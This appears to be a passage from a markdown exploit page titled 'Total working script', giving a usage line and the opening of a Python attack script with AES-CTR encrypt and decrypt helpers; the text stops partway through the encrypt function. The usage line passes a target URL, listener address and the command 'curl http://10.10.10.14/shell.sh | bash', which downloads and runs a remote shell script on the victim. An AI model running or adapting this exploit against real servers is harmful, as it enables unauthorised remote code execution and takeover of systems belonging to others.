 ## Total working script

```bash
# Usage 
python3 script.py -t "http://target:80" -i "127.0.0.1" -p "40056" -c "curl http://10.10.10.14/shell.sh | bash"
```

Full script

```python
import os
import json
import hashlib
import binascii
import random
import requests
import argparse
import urllib3
from Crypto.Cipher import AES
from Crypto.Util import Counter
import asyncio

# Disable HTTPS certificate warnings
urllib3.disable_warnings()

# The size of the AES key in bytes
key_bytes = 32

def decrypt(key, iv, ciphertext):
    """
    Decrypt the given ciphertext using AES in CTR mode with the provided key and IV.
    The key is padded with b'0' if its length is less than 32 bytes.
    """
    # If the key is shorter than key_bytes (32 bytes), pad it with b'0'.
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    # The final key length must match key_bytes
    assert len(key) == key_bytes

    # Convert the IV from bytes to a large integer
    iv_int = int(binascii.hexlify(iv), 16)

    # Create a Counter object for CTR mode using the IV integer
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)

    # Create AES-CTR cipher object
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    # Decrypt the ciphertext
    plaintext = aes.decrypt(ciphertext)
    return plaintext


def encrypt(key, iv, plaintext):
    """
    Encrypt the given plaintext using AES in CTR mode with the provided key and IV.
    The key is padded with b'0' if its length is less than 32 bytes.
    """
    # If the key is shorter than key_bytes (32 bytes), pad it with b'0'.
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
```